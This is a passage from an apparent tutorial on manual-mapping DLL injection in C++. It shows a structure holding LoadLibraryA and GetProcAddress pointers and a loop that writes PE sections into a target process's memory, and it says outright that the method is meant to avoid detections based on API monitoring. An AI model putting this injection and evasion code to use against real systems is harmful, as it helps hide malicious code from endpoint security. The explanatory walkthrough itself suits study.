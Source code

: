 Unlike `LoadLibrary`, which lets the operating system decide where to load the DLL, here we have complete control over the memory location. This allows us to avoid detections based on standard API monitoring.

![image](https://github.com/user-attachments/assets/ce90b027-4bd4-4fcf-9d1a-90e15a94d0db)

## 4. MANUAL_MAPPING_DATA Structure

```cpp
struct MANUAL_MAPPING_DATA
{
    LPVOID pLoadLibraryA;
    LPVOID pGetProcAddress;
    LPVOID pbase;
};

MANUAL_MAPPING_DATA data{ 0 };
data.pLoadLibraryA = LoadLibraryA;
data.pGetProcAddress = GetProcAddress;
data.pbase = pTargetBase;
```

This structure is fundamental to the technique:
1. It contains pointers to the `LoadLibraryA` and `GetProcAddress` functions, which are necessary to resolve imports.
2. It includes the base address where we have allocated memory in the target process.

This information will be passed to the shellcode so it can complete the loading process inside the target process.

## 5. Copying PE Sections

```cpp
PIMAGE_SECTION_HEADER pSectionHeader = IMAGE_FIRST_SECTION(pNTHeader);
for (UINT i = 0; i < pNTHeader->FileHeader.NumberOfSections; i++, pSectionHeader++)
{
    if (pSectionHeader->SizeOfRawData)
    {
        if (!WriteProcessMemory(hProcess, 
                               reinterpret_cast<BYTE*>(pTargetBase) + pSectionHeader->VirtualAddress,
                               pSrcData + pSectionHeader->PointerToRawData,
                               pSectionHeader->SizeOfRawData, nullptr))
        {
            cout << "Error: Could not write section " << i << endl;
            VirtualFreeEx(hProcess, pTargetBase, 0, MEM_RELEASE);
            delete[] pSrcData;
            return false;
        }
    }
}
```
